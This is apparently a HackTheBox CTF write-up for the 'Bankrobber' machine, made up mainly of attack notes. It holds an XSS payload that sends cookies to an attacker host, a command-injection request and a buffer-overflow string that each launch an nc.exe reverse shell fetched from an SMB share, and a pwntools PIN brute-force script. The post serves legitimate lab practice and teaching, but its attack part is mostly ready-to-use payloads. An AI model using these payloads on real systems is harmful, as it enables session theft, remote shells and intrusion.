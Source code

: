 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/w2K-bQNs3cg/0.jpg
layout: post
media_subpath: /assets/posts/2020-03-07-bankrobber-hackthebox
tags:
- binary exploitation
- command injection
- hackthebox
- stack overflow
- windows
- xss
title: Bankrobber @ HackTheBox
---
```


Bankrobber is a 50-point machine on hackthebox that involves exploiting a cross site scripting vulnerability to gain access to an admin account, using a command injection to get a user shell and exploiting a simple buffer overflow to become system.

{% youtube w2K-bQNs3cg %}

## Notes

XSS-Payloads:

```html
<script src="http://<ip>:8000/script.js"></script>
```

```js
function addImg(){
    var img = document.createElement('img');
    img.src = 'http://<ip>:8000/' + document.cookie;
    document.body.appendChild(img);
}
addImg();
```

```js
var xhr = new XMLHttpRequest();
document.cookie = "id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D";
var uri ="/admin/backdoorchecker.php";
xhr = new XMLHttpRequest();
xhr.open("POST", uri, true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("cmd=dir|\\\\<ip>\\xshare\\share\\nc.exe <ip> 7000 -e cmd.exe");
```

SSF:

<https://securesocketfunneling.github.io/ssf/#home>

Python-Scripts:

```python
from pwn import *

context.proxy = (socks.SOCKS4, 'localhost', 9090)
p = remote('localhost', 910, level='info')    
p.interactive()
```

```python
from pwn import *

context.proxy = (socks.SOCKS4, 'localhost', 9090)

for i in range(1000):
    p = remote('localhost', 910, level='info')
    p.recvuntil('[$] ')
    pin = str(i).zfill(4)
    p.sendline(pin)
    result = p.recvline()
    if not "denied" in result:
        log.success("Found Pin:" + str(pin))
        break
p.interactive()
```

Overflow-Payload:

```
AAAAAAAABBBBBBBCCCCCCCCDDDDDDD\\\\10.10.14.2\xshare\share\nc.exe <ip> 7000 -e cmd.exe
```
